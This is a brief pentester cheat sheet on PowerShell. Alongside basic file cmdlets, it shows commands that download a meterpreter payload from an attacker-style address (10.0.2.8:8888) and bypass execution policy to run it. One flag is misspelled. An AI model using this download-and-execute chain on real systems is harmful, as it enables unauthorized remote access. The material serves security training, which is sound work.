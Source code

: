 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.
Execution policies can have seven different values;
    - AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.
    - Bypass: All scripts can run, and no warnings or prompts will be displayed.
    - Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.
    - RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.
    - Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.
    - Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.
    - Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

